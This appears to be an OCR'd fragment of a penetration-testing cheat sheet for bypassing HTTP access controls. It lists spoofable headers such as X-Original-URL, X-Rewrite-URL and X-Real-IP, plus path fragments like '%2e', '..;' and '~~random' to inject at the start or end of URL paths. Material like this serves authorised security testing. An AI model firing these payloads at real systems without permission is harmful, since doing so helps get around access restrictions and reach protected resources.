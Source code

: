 ```fundamental
X-Original-Remote-Addr
X-Original-URL
X-Originally-Forwarded-For
X-Originating-IP
X-Override-URL
X-Proxy-Host
X-Proxy-URL
X-ProxyUser-IP
X-Real-IP
X-Referer
X-Remote-Addr
X-Remote-IP
X-Requested-With
X-Rewrite-URL
X-Server-IP
X-True-Client-IP
X-True-IP
X-Wap-Profile
```

# URL Paths

Inject at the beginning, end, and both, beginning and end of the URL path. All possible combinations.

```fundamental
/
//
%09
%20
%23
%2e
*
.
..
;
.;
..;
;foo=bar;
```

Inject at the end of the URL path.

```fundamental
#
##
##random
*
**
**random
.
..
..random
?
??
??random
~
~~
~~random
```
